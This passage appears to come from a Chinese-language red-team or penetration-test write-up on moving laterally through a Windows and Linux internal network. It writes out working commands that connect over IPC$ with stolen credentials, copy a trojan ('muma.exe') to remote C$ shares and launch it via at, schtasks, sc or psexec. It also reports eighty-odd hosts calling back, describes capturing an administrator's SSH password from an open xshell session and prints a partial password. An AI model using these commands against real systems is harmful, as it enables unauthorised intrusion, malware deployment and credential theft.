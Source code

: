 接着继续拿着B、C密码接着跑一波。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01f0e3a2376cae3c39.png)

这张图不太全（假装图全），其实大概一共跑了四十到五十台机器，像SQL Server就直接exec命令执行，如果百度一下出错提示信息的修复一下。如果是mysql的root，常规udf根据版本再决定udf.dll传入哪个插件目录（&lt;5.1 C:\Windows&amp;C:\Windows\Temp,&gt;5.1 Mysql当前目录）。SMB的话通过IPC$或者WMI的方式连进去(这里参考一下腾讯蓝军jumbo写的-红蓝对抗之Windows内网渗透)，例如

net use \\\192.168.0.1\ipc$ “password” /user:administrator

复制木马到C盘临时目录下

xcopy muma.exe \\\192.168.0.1\C$\temp

接着根据系统版本选择使用计划任务**at**(&lt;=Win7,Server2003)或者**Schtasks**(&gt;Win7,&gt;=Server2008)或者**sc**服务(都支持)启动进行启动，个别杀软会拦截启动项设置，这里不在讨论范围内。

A、at

at  \\\192.168.0.1 15:15 C:\Windows\Temp\muma.exe

这里可以提前通过net time 查看一下当前机器的时间，设置在下一分钟启动

net time \\\192.168.0.1

B、schtasks

schtasks  /create /s 192.168.0.1 /u domain\Administrator /p password /ru “SYSTEM”  /tn “windowsupdate” /sc DAILY  /tr “calc” /F

schtasks  /run /s 192.168.0.1 /u domain\Administrator /p password /tn windowsupdate

C、sc

sc  \\\192.168.0.1 create windowsupdate binpath= “calc”

sc  \\\192.168.0.1 start windowsupdate

亦或者通过psexec直接执行

psexec.exe \\\192.168.0.1 -accepteula -u username- password cmd /c c:\windows\temp\muma.exe

陆续反弹回来八十多台机器，

[![](https://p5.ssl.qhimg.com/t0171cdf869e4c4d68f.png)](https://p5.ssl.qhimg.com/t0171cdf869e4c4d68f.png)

但还是有一部分权限机器没拿到，重新梳理了一下RDP 3389端口，还有SSH 22端口，再根据计算机名，找到疑似管理员常用机器，翻了一下桌面常用的软件lnk，发现了有xshell，果断3389连接进去。

[![](https://p1.ssl.qhimg.com/t0163fc7bef37c8c3a5.png)](https://p1.ssl.qhimg.com/t0163fc7bef37c8c3a5.png)

先登录第一个终端，使用命令对ssh进行监听，因为比较懒就不破解xshell得配置文件（其实是没破出来，只能这样了），读取密码。

然后再登录一次终端，第一次登录的终端上即可获取到ssh的登录密码。

接着得到Linux的D 密码btscxxx!IZXC，根据上面的情况盲猜有一大片Linux机器也是一样。继续漫长的跑密码。

[![](https://p0.ssl.qhimg.com/t01c5a249afc14eeaea.png)](https://p0.ssl.qhimg.com/t01c5a249afc14eeaea.png)
